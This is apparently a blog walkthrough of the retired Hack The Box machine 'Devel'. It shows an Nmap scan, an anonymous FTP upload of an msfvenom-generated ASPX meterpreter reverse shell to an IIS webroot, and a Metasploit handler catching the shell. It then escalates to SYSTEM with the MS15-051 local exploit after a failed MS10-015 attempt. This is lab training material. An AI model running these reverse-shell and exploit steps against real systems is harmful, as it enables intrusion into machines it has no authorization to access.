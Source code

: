 
---
title: "Devel Rooted: A Hack The Box Walkthrough"
canonical_url: https://notesbynisha.com/blog/hackthebox/devel-rooted/
date: 2025-04-22
layout: single
classes: wide
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_sticky: true
categories:
  - Blog
  - HackTheBox
tags:
  - hackthebox
  - windows
  - initial-access
  - ftp
  - webdav
  - metasploit
  - privilege-escalation
excerpt: "This post is a walkthrough of the 'Devel' retired machine from Hack The Box. I gain initial access through an exposed FTP and WebDAV setup, then escalate privileges using MS15-051."
header:
  image: /assets/images/htb/devel/devel-00.png
  teaser: /assets/images/htb/devel/devel-00.png
  overlay_filter: "rgba(0, 0, 0, 0.3)"
  caption: "Hack The Box - Devel Machine"
---

## 🧠 Summary

- **Target OS**: Windows Server 2008 R2
- **Difficulty**: Easy
- **IP Address**: 10.129.249.251
- **Initial Access Vector**: FTP upload to WebDAV
- **Privilege Escalation Vector**: Kernel exploit (MS15-051)
- **Tools Used**: Nmap, Metasploit, msfvenom

---

## 🛰️ Reconnaissance

I began with a full port scan using Nmap:

```bash
nmap -p- -A -T4 10.129.249.251
```

![Nmap Scan Screenshot](/assets/images/htb/devel/devel-02.png)

### 🔍 Results:

- **Port 21 (FTP)**:
  - `Microsoft ftpd`
  - **Anonymous login** allowed
  - Files: `aspnet_client/`, `iisstart.htm`, `welcome.png`

- **Port 80 (HTTP)**:
  - `Microsoft IIS httpd 7.5`
  - TRACE method enabled
  - OS Guess: Windows Server 2008 R2 / Windows 7 SP1

---

## 🌐 Web Server Enumeration

I browsed the site directly via:

```text
http://10.129.249.251
```

![IIS7 Default Page](/assets/images/htb/devel/devel-03.png)

The page showed the default **IIS7 welcome page**, confirming a likely upload path vulnerability via FTP to the webroot.

---

## 🎯 Initial Foothold

I generated a reverse shell in ASPX format:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.XX LPORT=4444 -f aspx > shell.aspx
```

Uploaded it via FTP (anonymous login):

```bash
ftp 10.129.249.251
put shell.aspx
```

Then triggered it in the browser:

```
http://10.129.249.251/shell.aspx
```

Metasploit caught the reverse shell with a listener:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.XX
set LPORT 4444
run
```

---

## 📈 Privilege Escalation

### Step 1: Checked for Kernel Exploits

```bash
systeminfo
```

Identified Windows Server 2008 R2 SP1 — vulnerable to **MS10-015** and **MS15-051**.

### Step 2: Attempted MS10-015

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <meterpreter session>
run
```

But the exploit failed — I forgot to set the correct `LHOST` and Metasploit defaulted to `eth0` instead of my `tun0`. After troubleshooting, I pivoted.

### Step 3: Successful Exploit with MS15-051

```bash
use exploit/windows/local/ms15_051_client_copy_image
set SESSION <meterpreter session>
set LHOST 10.10.14.XX
run
```

This successfully gave me **SYSTEM** shell.

---

## 🏁 Capture the Flags

```bash
type C:\Users\<user>\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧩 MITRE ATT&CK Mapping

| Tactic         | Technique                              |
|----------------|----------------------------------------|
| Initial Access | [T1078.001 - Valid Accounts: Local Accounts](https://attack.mitre.org/techniques/T1078/001/) |
| Execution      | [T1059.005 - Command and Scripting Interpreter: Visual Basic](https://attack.mitre.org/techniques/T1059/005/) |
| Priv. Esc.     | [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/) |
| Discovery      | [T1082 - System Information Discovery](https://attack.mitre.org/techniques/T1082/) |
| Persistence    | [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/) |

---

![Proof of Root - Devel](/assets/images/htb/devel/devel-rooted.png)
